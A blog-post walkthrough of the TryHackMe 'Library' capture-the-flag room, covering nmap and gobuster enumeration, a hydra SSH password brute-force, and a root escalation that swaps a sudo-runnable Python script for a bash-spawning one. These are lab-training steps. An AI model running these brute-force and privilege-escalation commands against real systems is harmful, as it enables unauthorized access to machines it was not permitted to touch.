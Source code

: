 ```yaml
---
layout: post
title: Tryhackme - Library
date: 2020-11-25 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,boot2root]
---
```


---
<p>Library is a beginner level room in Tryhackme. The objective is to get the user and the root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/library/1.png)

**Author** | stuxnet
**Description** | boot2root machine for FIT and bsides guatemala CTF.

<p>Deploy the VM and lets go.</p>

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/library/nmap_scan.png)
<br>
Only the ssh and http services are open. Let's check the http service.
<br>
![http_service](/assets/img/tryhackme/library/2.png)
<br>
Use ```gobuster``` to bruteforce the hidden directories.
<br>
<pre>gobuster dir -u http://remote-ip-addr/ -w /usr/share/dirb/wordlists/common.txt -t 50 -x php,html,txt,js</pre>
<br>
![gobuster](/assets/img/tryhackme/library/3.png)
<br>
Checked the ```robots.txt``` file but found nothing useful.
<br>
![robots](/assets/img/tryhackme/library/4.png)
<br>

After looking around for a while, found the username ```meliodas``` in the homepage.
<br>
![user_name](/assets/img/tryhackme/library/5.png)<br>
<br>


## <ins>User flag</ins>
---
I used ```hydra``` to find the password for the user ```meliodas```
<br>
<pre>hydra -l meliodas -P ~/Wordlists/rockyou.txt remote-ip-addr ssh</pre>
<br>
![hydra](/assets/img/tryhackme/library/7.png)
<br>
Let's login to ssh using the credentials we just found
<br>
![user_flag](/assets/img/tryhackme/library/6.png)
<br>
Boom!! We got the user flag. Let's get going to the root flag.

## <ins>Root flag</ins>
---
I used ```sudo -l``` to get the files that can run by root.
<br>
![sudo_-l](/assets/img/tryhackme/library/8.png)
<br>
There is a file named ```bak.py``` which can be run as root...but wait it cannot be edited by the user ```meliodas```.

So, let's create a new file.
<b>
<pre>
rm bak.py
touch bak.py
echo 'import pty;pty.spawn("/bin/bash")' > bak.py
sudo python /home/meliodas/bak.py</pre>
<br>
![root_flag](/assets/img/tryhackme/library/9.png)

The root flag is in the ```/root``` directory.

That's it folks. Happy hacking!!!






















